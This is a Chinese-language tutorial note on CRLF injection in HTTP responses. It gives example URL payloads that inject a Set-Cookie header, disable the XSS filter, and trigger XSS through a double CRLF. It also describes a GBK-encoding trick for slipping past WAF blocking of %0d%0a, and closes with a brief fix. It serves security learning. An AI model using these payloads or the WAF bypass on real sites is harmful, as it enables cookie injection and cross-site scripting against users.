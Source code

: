 - [CRLF Inject](#crlf-inject)
  - [绕过XSS Filter](#绕过xss-filter)
  - [XSS](#xss)
  - [GBK编码](#gbk编码)
  - [修复](#修复)
# CRLF Inject
CRLF代表特殊字符回车符（\r）和换行符（\n），这是特定操作系统（如Windows）中使用的两个元素，以及各种互联网协议（如HTTP）。回车符表示行的末尾，而换行符表示新行。

通常，CRLF组合的目的是指示文本流中的对象结束或开始的位置。例如，当客户端（浏览器）请求网站上的内容时，服务器会返回带有称为响应正文的 HTTP 标头的内容。响应中的标头通过 CR 和 LF 与实际网站内容分开.  

![](2022-10-19-17-41-18.png)  
但是，CRLF 字符序列可能被恶意用作 CRLF 注入攻击。此攻击是在应用程序层进行的服务器端注入。

通过利用服务器中的 CRLF 注入漏洞（允许用户从不受信任的源输入），攻击者可以拆分文本流并引入未经中和或清理的恶意内容。
## 绕过XSS Filter
通过注入一个CRLF就可以注入Header到响应的body中，因为浏览器是以\r\n来分割每一行的,而`\r\n`的url编码即为`%0d%0a`.
比如url:`http://www.domain.com/returnurl=http://baidu.com`  
响应如下：
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://baidu.com
```
returnurl的值为设置为了302跳转的Location值，插入到了Header中，这个时候就可以在returnurl中注入CRLF.  
如:`http://www.domain.com/returnurl=%0d%0aSet-cookie:test%3Dhttp://baidu.com`
响应就会如下:
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Set-cookie:test
Location: http://baidu.com
```  
就可以成功注入一个`Set-cookie`Header在响应头中，同理可以注入任意的Header。
当遇到浏览器Filter，开启了`X-XSS-Protection:1`时，浏览器会对XSS进行拦截，通过CRLF可以直接注入一个`X-XSS-Protection=0`来直接关闭XSS Filter。
## XSS
通过注入两个CRLF，既可以造成XSS，因为浏览器是以两个CRLF来将Header和Body进行区分解析的。
比如URL:`http://www.domain.com/returnurl=%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>`  
响应就会如下:
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Set-cookie:test\r\n
\r\n
<img src=1 onerror=alert(/xss/)>
```  
最终导致XSS。
## GBK编码
有些WAF会对`%0d%0a`进行拦截，可以考虑使用GBK编码绕过。   
Payload: CRLF ---> 嘍嘊(GBK) ---> `%E5%98%8D%E5%98%8A`(URLEncode)  
exp:`https://subDomain/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=test`  
[$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)
## 修复
过滤\r 、\n之类的换行符，避免输入的数据污染到其他HTTP头。
